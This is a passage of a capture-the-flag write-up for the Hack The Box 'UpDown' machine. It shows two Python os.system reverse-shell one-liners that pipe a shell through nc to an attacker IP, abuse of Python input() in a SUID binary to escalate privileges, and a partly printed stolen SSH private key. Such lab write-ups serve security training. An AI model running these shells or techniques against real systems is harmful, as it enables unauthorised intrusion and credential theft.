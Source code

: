 :P Now I can execute commands :

![](/assets/img/htb/updown/Updown-14.png)

After trying out several rev shell commands available on [Github/Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), I was able to spawn a shell using the following command:
```sh
__import__('os').system('mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.16.6 4242 >/tmp/g')
```

Finally a shell:

![](/assets/img/htb/updown/Updown-15.png)

# Privilege Escalation - developer

Suid bit :). Just gotta figure out how to use this for priv_esc.

![](/assets/img/htb/updown/Updown-16.png)

After a bit of searching, Found out that the input() function seems to be vulnerable. [hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

I was able to modify the following example for command injection to spawn another reverse shell which would then run as a developer:

![](/assets/img/htb/updown/Updown-18.png)

```sh
__import__('os').system('mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.16.6 6262 >/tmp/g')
```

ohoo Successfully Privesc'ed to developer, I'm still in www-data group though:

![](/assets/img/htb/updown/Updown-19.png)

Found priv key for ssh:
```
$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
EAAAGBAJrweNE1jPHrtJ+hTs4sUwNaUN/UqcGMq2Aoyqw7afIORNORBHCcP0taovTxaDb8
5Le1Mt/vusQ3feboAHbbkS+6swNN8UjZKp7dh4IygDzq+nLSLzA6YfCXgRdhfUsuF67Xwj
++vlqc5sU+7rbxg9DdQGN/hBkaTm+6ufV9KXD0ZyFJ8btrDfryF43xr6ogGKMzgeQ3l/K2
9m5Ioukt0NbTNVVA6Fu3AkW5wTIJZthVxCVPZRL/T8tg+AWrxb6FKrU/GgqLK6yr06QEJD
6734qEobSKaPeRn8segY9jCiekLoYiSvjts2JtM9ro4wl7jN1eCW9CNVHfqmvkLcU7DUFa
XCLnLdOsU31V3hLT04WiyOSpFxJcfk4MEdOt948EaX8dXlYCwscWJOQmqR7rtJ4VKSAlNR
V6+rVdrhNSyG+UyawiMeO/RJW3NTD6xgpLEFVfBHrCO5JOQNkq5zTMS3tnJCLEB0B8SHIr
wgiMweEfRWzinUismUx3mc4z8J1PhQAAAAMBAAEAAAGAMhM4KP1ysRlpxhG/Q3kl1zaQXt
b/ilNpa+mjHykQo6+i5PHAipilCDih5CJFeUggr5L7f06egR4iLcebps5tzQw9IPtG2TF+
ydt1GUozEf0rtoJhx+eGkdiVWzYh5XNfKh4HZMzD/sso9mTRiATkglOPpNiom+hZo1ipE0
NBaoVC84pPezAtU4Z8wF51VLmM3Ooft9+T11j0qk4FgPFSxqt6WDRjJIkwTdKsMvzA5XhK
rXhMhWhIpMWRQ1vxzBKDa1C0+XEA4w+uUlWJXg/SKEAb5jkK2FsfMRyFcnYYq7XV2Okqa0
NnwFDHJ23nNE/piz14k8ss9xb3edhg1CJdzrMAd3aRwoL2h3Vq4TKnxQY6JrQ/3/QXd6Qv
ZVSxq4iINxYx/wKhpcl5yLD4BCb7cxfZLh8gHSjAu5+L01Ez7E8MPw+VU3QRG4/Y47g0cq
DHSERme/ArptmaqLXDCYrRMh1AP+EPfSEVfifh/ftEVhVAbv9LdzJkvUR69Kok5LIhAAAA
wCb5o0xFjJbF8PuSasQO7FSW+TIjKH9EV/5Uy7BRCpUngxw30L7altfJ6nLGb2a3ZIi66p
```